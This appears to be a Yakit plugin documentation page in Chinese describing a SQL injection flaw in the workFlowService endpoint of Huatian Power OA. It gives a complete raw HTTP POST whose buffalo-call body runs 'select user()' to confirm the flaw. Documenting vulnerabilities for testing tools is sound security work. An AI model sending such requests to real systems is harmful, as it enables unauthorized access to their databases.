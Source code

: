 ```yaml
---
sidebar_position: 22
---
```

# 华天动力OA插件使用

## 1 workFlowService SQL注入漏洞

**插件id：**

Yakit正在努力编写~

**测试过程：**

测试网站构造恶意请求包发送

```go
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

查看响应包，确认漏洞

![](/img/products/yakit/HTDLOA-1.png)